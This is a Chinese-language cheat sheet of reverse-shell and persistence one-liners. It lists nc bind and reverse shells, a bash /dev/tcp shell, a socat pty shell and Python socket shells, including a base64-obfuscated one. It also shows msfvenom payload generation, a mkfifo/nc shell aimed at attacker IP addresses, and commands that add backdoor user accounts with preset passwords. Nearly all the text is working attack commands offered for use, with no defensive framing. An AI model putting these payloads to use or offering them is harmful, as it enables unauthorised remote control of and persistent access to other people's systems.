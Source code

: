 #### nc

> 受害主机
>
> **#** 开启本地8080端口监听，并将本地的bash发布出去。
>
> nc -lvvp 8080 -t -e /bin/bash

>  攻击主机
>
> nc 172.21.230.72 8080 	#连接受害主机的bash

> 不支持-e
>
> ![image-20210417171331848](C:\Users\86184\AppData\Roaming\Typora\typora-user-images\image-20210417171331848.png)

####  **bash 直接反弹**

>  bash -i >& /dev/tcp/192.172.21.233/8080 0>&1

#### **socat 反弹一句话**

> 攻击主机开启12345端口监听
>
> socat TCP-LISTEN:12345 -

> 靶机反弹shell到主机的12345端口
>
> /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.21.170.21：12345

#### python

> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.21.170.20",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### MSF

>  msfvenom -l payloads 'cmd/unix/reverse'
>
> 使用 msfvenom -l 结合关键字过滤（如cmd/unix/reverse），找出我们需要的各类反弹一句话payload的路径信息。
>
> **mfs生成bash一句话**
>
> >  *msfvenom -p cmd/unix/reverse_bash lhost=1.1.1.1 lport=12345 R*
>
> **nc一句话反弹**
>
> > *msfvenom -p cmd/unix/reverse_netcat lhost=1.1.1.1 lport=12345 R*
>
> **python一句话反弹**
>
> > ![img](https://p0.ssl.qhimg.com/t01f8abd9cc27aac7ca.png)
> >
> > msfvenom -l payload | grep 'reverse python'
> >
> > msfvenom -p cmd/unix/reverse python lhost=172.21.170.21 lport=12345 R
> >
> > 靶机运行
> >
> > > python -c "exec('aW1wb3J0IHNvY2tldCAgICAgICAgLCBzdWJwcm9jZXNzICAgICAgICAsIG9zICAgICAgICA7ICBob3N0PSIxOTIuMTY4LjMxLjIwMCIgICAgICAgIDsgIHBvcnQ9MTIzNDUgICAgICAgIDsgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgLCBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICwgcG9ydCkpICAgICAgICA7ICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICwgMCkgICAgICAgIDsgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAxKSAgICAgICAgOyAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAsIDIpICAgICAgICA7ICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))"

#### 其他

> **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.150 1234 >/tmp/f**

#### 一句话添加账号

> 1. **useradd newuser;echo "newuser:password"|chpasswd**
>
> 2. **useradd -p `openssl passwd 123456` guest**
> 3. *useradd -p "$(openssl passwd 123456)" guest*
> 4. user_password="`openssl passwd 123456`" 		useradd -p "$user_password" guest
> 5. useradd test;echo -e "123456n123456n" |passwd test



